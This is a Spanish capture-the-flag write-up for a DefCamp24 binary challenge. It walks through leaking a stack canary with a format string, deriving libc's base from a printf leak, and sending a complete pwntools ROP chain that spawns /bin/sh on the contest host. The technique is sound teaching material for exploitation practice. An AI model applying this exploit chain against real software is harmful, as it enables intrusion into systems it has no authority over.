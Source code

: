 ```yaml
---
date: 2024-09-30
tier: easy
author: naibu3
ctf: DefCamp24
---
```

# Overview

En este reto se ataca un binario de 64 bits con dos [[Buffer overflow]], un *leak de libc* y un [[Format string]], que tendremos que utilizar bypasear un [[Canary]] y [[PIE]].

# Reconocimiento

Se nos da un binario que analizaremos con [[checksec]]:

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Descompilando con [[ghidra]]:

```c
undefined8 main(void) {
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  coffee();
  puts("Party!");
  return 0;
}

void coffee(void)
{
  long in_FS_OFFSET;
  char input [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  
  printf("Coffee Time\n$ ");
  gets(input);      /* BUFFER OVERFLOW */
  printf(input);    /* FORMAT STRING */
  
  printf("What is this? %p\n",printf);    /* LEAK */
  printf("\nCoffee Time\n$ ");
  fread(input,1,0x50,stdin);    /* FORMAT STRING */
  puts(input);
  
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {    /* Canary check */
    __stack_chk_fail();
  }
  return;
}
```

Vemos que si utilizamos el [[Format string]] para leakear el [[Canary]], podemos utilizar el leak de `printf` para calcular la dirección base de libc y mandar una [[ROP - Return Oriented Programming|ropchain]] en el último [[Buffer overflow|BOF]].

# Explotación

## Sacando el Canary

Para filtrar el [[Canary]] debemos utilizar el [[Format string]], concretamente un especificador de formato como `"%n$x"`, e iremos probando con distintas `n` hasta encontrar un valor acabado en `00`. En este caso lo haremos con un script de [[python]]:

```python
#!/bin/python3
from pwn import *

for i in range(0, 15):
	io = process('./chall')
	io.recvuntil(b"$ ")
	io.sendline(f"%{i}$x")
	print(io.recvline().decode())
```

En este caso, vemos que está en la posición `9`.

## Calculando la dirección base de libc

A partir de este punto podemos utilizar [[pwntools]] e ir escribiendo un script para facilitar las cosas:

```python
#! /bin/python3
import re
from pwn import *

libc = ELF('libc-2.31.so')

def start():
    if args.REMOTE:
        return remote('35.234.95.200', 31484)
    else:
        return process('./chall_patched')

io = start()

#1er input -> LEAK CANARY - PRINTF
io.recvuntil(b"$ ")
io.sendline(b"%9$lx")
leaks = io.recvline().decode()

canary = re.search(r'^[0-9a-fA-F]+', leaks).group()
canary = int(canary, 16)

printf_leak = re.search(r'0x[0-9a-fA-F]+', leaks).group()
printf_leak = int(printf_leak, 16)

log.info(f"Canary -> {hex(canary)}")
log.info(f"Printf -> {hex(printf_leak)}")
```

Hasta este punto sólo hemos recogido el valor del leak y del canario. Teniendo el leak, sólo debemos buscar la dirección de `printf` en libc y restársela al leak:

```python
#Calculamos la dir base de libc
base_libc = printf_leak - libc.symbols["printf"]
log.info(f"Base Libc -> {hex(base_libc)}")
```

## Calculando direcciones

Ahora debemos calcular la dirección de `system` y buscar en libc la cadena `/bin/sh`:

```python
#Buscamos la cadena /bin/sh
bin_sh = base_libc + next(libc.search(b'/bin/sh'))
log.info(f"Bin_sh -> {hex(bin_sh)}")

#Calculamos la direccion de system
system = base_libc + libc.symbols['system']
log.info(f"System -> {hex(system)}")
```

## Construyendo el payload

Finalmente, haciendo uso de gadgets de libc podemos cada valor en su registro (hace falta un gadget `ret` que *alinee el stack*):

```python
#2o input
io.recvuntil(b"$ ")

payload = b'A'*24
payload += p64(canary)
payload += b'B'*8
payload += p64(base_libc + 0x23b6a) #0x0000000000023b6a: pop rdi; ret;
payload += p64(bin_sh)
payload += p64(base_libc + 0x22679) #0x0000000000022679: ret;
payload += p64(system)
payload += b'C'*16

io.sendline(payload)

io.interactive()
```

Ejecutamos y deberíamos obtener una shell.